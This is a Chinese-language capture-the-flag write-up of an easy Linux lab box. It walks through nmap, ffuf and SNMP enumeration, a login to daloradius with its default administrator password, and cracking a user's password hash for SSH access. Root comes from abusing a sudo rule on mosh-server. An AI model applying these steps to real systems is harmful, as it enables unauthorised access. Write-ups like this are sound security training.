- Difficulty: Easy
- OS: Linux
Nmap result
PORT STATE SERVICE REASON VERSION
22/tcp open ssh syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 48:b0:d2:c7:29:26:ae:3d:fb:b7:6b:0f:f5:4d:2a:ea (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBK+kvbyNUglQLkP2Bp7QVhfp7EnRWMHVtM7xtxk34WU5s+lYksJ07/lmMpJN/bwey1SVpG0FAgL0C/+2r71XUEo=
| 256 cb:61:64:b8:1b:1b:b5:ba:b8:45:86:c5:16:bb:e2:a2 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJ8XNCLFSIxMNibmm+q7mFtNDYzoGAJ/vDNa6MUjfU91
80/tcp open http syn-ack ttl 63 Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods:
|_ Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.52 (Ubuntu)
Enumeration
80端口是apache的默认网页，用ffuf遍历directory和files：

ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -u http://10.10.11.48/FUZZ
server-status [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 215ms]
:: Progress: [29999/29999] :: Job [1/1] :: 190 req/sec :: Duration: [0:02:48] :: Errors: 1 ::
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt -u http://10.10.11.48/FUZZ
index.html [Status: 200, Size: 10671, Words: 3496, Lines: 364, Duration: 370ms]
.htaccess [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 239ms]
. [Status: 200, Size: 10671, Words: 3496, Lines: 364, Duration: 191ms]
.html [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 189ms]
.php [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 332ms]
.htpasswd [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 198ms]
.htm [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 190ms]
.htpasswds [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 191ms]
.htgroup [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 195ms]
wp-forum.phps [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 191ms]
.htaccess.bak [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 190ms]
.htuser [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 189ms]
.htc [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 190ms]
.ht [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 270ms]
都是些默认的网页，没有任何有用的信息。扫描一下UDP端口看看：
sudo nmap -sU --top-ports 200 10.10.11.48
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-13 00:03 AEST
Nmap scan report for 10.10.11.48
Host is up (0.19s latency).
Not shown: 197 closed udp ports (port-unreach)
PORT STATE SERVICE
161/udp open snmp
1812/udp open|filtered radius
1813/udp open|filtered radacct
161 snmp开放，用snmpwalk看看有什么信息：

显示出了一个用户名steve@underpass.htb 先做记录 并知道部署了名为daloradius的服务？尝试http下访问/daloradius试试：

显示forbidden，但知道确实是有这个目录的 用feroxbuster递归遍历/daloradius下有什么目录:

Initial Foothold
访问了几个全是404 Not Found 谷歌搜了一下，找到了daloradius的github repo. 在 /app/users/ 和 /app/operators/ 下分别发现了login.php

查看operators下面的login.php，应该是admin用户的登录界面：

尝试弱口令爆破 admin:admin root:root 之类的都失败。谷歌搜索daloradius默认密码:

搜到了administrator:radius 尝试登录试试:

登陆成功. 在config->Database Settings 下找到了steve登录数据库的密码 先做记录:

在Management-> List Users下发现了用户svcMosh的密码hash：

尝试了用rockyou.txt 爆破但失败 用在线的hash cracker爆破试试 得到了密码 underwaterfriends

尝试用得到的两个creds ssh登录：

svcMosh登陆成功，在svcMosh home下得到user flag
Root
svcMosh 可以以root运行mosh-server 尝试运行一下
svcMosh@underpass:~$ sudo -l
Matching Defaults entries for svcMosh on localhost:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty
User svcMosh may run the following commands on localhost:
(ALL) NOPASSWD: /usr/bin/mosh-server
svcMosh@underpass:~$ sudo /usr/bin/mosh-server
MOSH CONNECT 60001 8wj02XSCCavC9qc0IZjfgg
mosh-server (mosh 1.3.2) [build mosh 1.3.2]
Copyright 2012 Keith Winstein <mosh-devel@mit.edu>
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
[mosh-server detached, pid = 2139]
显示mosh-server版本1.3.2 谷歌一下这个mosh-server 是一个remote shell 在官网下可以找到连接方式.

尝试用这个方法连接试试
MOSH_KEY=dR19ewhTJqeSCt+il21otA mosh-client 127.0.0.1 60001

连接后获得了root权限 并在当前目录下找到root.txt
Happy Hacking